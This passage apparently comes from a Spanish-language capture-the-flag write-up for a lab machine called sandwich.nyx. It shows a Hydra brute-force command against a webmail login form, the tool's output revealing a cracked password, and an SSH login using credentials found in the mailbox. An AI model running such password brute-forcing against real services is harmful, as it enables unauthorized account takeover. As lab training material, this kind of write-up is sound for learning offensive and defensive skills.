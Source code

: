 Con el listado de usuarios vamos a realizar fuerza bruta.

### Hydra

```shell
hydra -L users.txt -P <WORDLIST> webmail.sandwich.nyx http-post-form "/login.php:email=^USER^&password=^PASS^:Invalid credentials or user not found." -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-15 03:58:06
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://webmail.sandwich.nyx:80/login.php:email=^USER^&password=^PASS^:Invalid credentials or user not found.
[STATUS] 375.00 tries/min, 375 tries in 00:01h, 14344024 to do in 637:31h, 64 active
[STATUS] 351.67 tries/min, 1055 tries in 00:03h, 14343344 to do in 679:47h, 64 active
[STATUS] 360.57 tries/min, 2524 tries in 00:07h, 14341875 to do in 662:56h, 64 active
[80][http-post-form] host: webmail.sandwich.nyx   login: matthygd_x@sandwich.nyx   password: qweasd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-15 04:06:24
```

Veremos que hemos encontrado las credenciales, por lo que vamos a `loguearnos` en `webmail`.

```
User: matthygd_x@sandwich.nyx
Pass: qweasd
```

Si entramos dentro veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-15 100916.png" alt=""><figcaption></figcaption></figure>

Vemos que nos esta dando unas credenciales para conectarnos por `SSH` por lo que vamos a coenctarnos.

### SSH

```shell
ssh matthygd_xy@<IP>
```

Metemos como contraseña `tGCD9XIP03IHpSCDdoRu`...

Info:
